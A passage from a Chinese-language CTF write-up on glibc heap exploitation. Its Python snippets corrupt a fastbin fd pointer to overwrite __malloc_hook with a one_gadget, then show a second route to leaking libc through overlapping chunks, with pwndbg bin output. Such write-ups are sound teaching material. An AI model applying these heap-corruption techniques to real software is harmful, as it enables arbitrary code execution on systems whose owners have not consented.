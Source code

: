 申请 0x60 fastbin chunk 之后就是常规的修改 fastbin fd 指针达到任意写的操作。这里偏移构造 size 位选择 0x23 。

```python
create(0x10)#3
create(0x70)#4
create(0x60)#5
free(5)
payload = 'c'*0xa0 + p64(0) + p64(0x71)
payload += p64(malloc_hook-0x23)
# write(3,len(payload),payload)
write(4,len(payload),payload)
create(0x60)#5
create(0x60)#6

payload = 'a'*(0x23-0x10)
payload += p64(onegadget)
write(6,len(payload),payload)

creat(0x20)
```

这条题目泄露 libc 地址还有一种方法，修改 fastbin fd 指向一个 inuse 的非 fastbin 的堆块，然后将这个 fastbin 申请出来，达成两个指针指向同一个地址效果。然后释放这个非 fastbin 的堆块，用刚刚申请创造的 fastbin 指针读取 fd 指针的 libc 地址。具体看 gd 文章：https://bbs.pediy.com/thread-223461.htm

```python
create(0x10)
create(0x10)#1
create(0x10)
create(0x10)
create(0x80)#4
create(0x10)

free(2)
free(1)

payload = 0x10 * 'a' + p64(0) + p64(0x21) + p8(0x80)
fill(0, len(payload), payload)

payload = 0x10 * 'a' + p64(0) + p64(0x21)
fill(3, len(payload), payload)
create(0x10)  # idx 1
create(0x10)  # idx 2, which point to idx4's location
dump(2)
```

覆盖 chunk1 在 fastbin 时的 fd 执行 chunk4 之后，还需要将 chunk4 size 修改为 chunk1 fastbin 所在的大小范围：

```shell
pwndbg> bin
fastbins
0x20: 0x555555757020 —▸ 0x555555757080 ◂— 0x0
0x30: 0x0
0x40: 0x0
0x50: 0x0
0x60: 0x0
0x70: 0x0
0x80: 0x0
```
